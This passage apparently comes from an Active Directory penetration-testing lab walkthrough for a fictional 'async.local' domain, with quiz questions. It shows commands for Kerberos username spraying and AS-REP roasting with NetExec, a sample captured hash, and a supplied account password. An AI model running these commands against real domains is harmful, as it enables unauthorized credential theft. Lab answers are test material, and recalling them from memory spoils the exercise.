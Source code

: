 **Q2**: What is the name of the file that contains the list of team leaders?

### 1.4. Enumerating Users

Using the names identified in the above exercise, we can enumerate the users in the `async.local` using the kerberos protocol. You may use the following one-liner to convert the `csv` into a list of usernames:

```bash
awk -F ',' '{print $2}' team_contact_list.csv | tail -n +2 | tee users.txt

cat users.txt
Alice_LIM
John_SMITH
James_PARKER.FROM.LG
Sarah_DAVIS
Emily_WILSON
```

These usernames can be sprayed with the following command:

```
nxc smb dc.async.local -u users.txt -p '' --kerberos
```

**Q3**: How many of the users are valid domain users?

**Q4**: Which user is vulnerable to an asreproast attack?

### 1.5. Roasting

An asreproast attack is a type of attack that targets users with the `DoNotRequirePreAuth` flag set. This flag allows the user to authenticate without providing a password in the `AS-REQ` message. This means that the attacker can request a TGT for the user, and crack the TGT offline to obtain their password.

The following command can be used to obtain an encrypted TGT for the user:

```
nxc ldap DC.async.local -u 'James_PARKER.FROM.LG' -p '' --asreproast 'james.parker.tgt.enc'
LDAP        10.2.10.2       389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:async.local)
LDAP        10.2.10.2       389    DC               $krb5asrep$23$James_PARKER.FROM.LG@ASYNC.LOCAL:d79b5c36bf86ca32574b1af718023d21$3b40f6835[..snip..]8dfa94a6 
```

**Q5**: What is the password for the `James_PARKER.FROM.LG` account?

## Exercise 2: Authenticated Enumeration

With access to the `James_PARKER.FROM.LG` account, we can now enumerate the domain as a `Domain User`. If you were not able to crack the password for the `James_PARKER.FROM.LG` account for any reason, you can use the following password to access the account:

```
James_PARKER.FROM.LG
november11
```


[fs.async.local]: PS C:\Users\Tyler_ROSE\Documents> whoami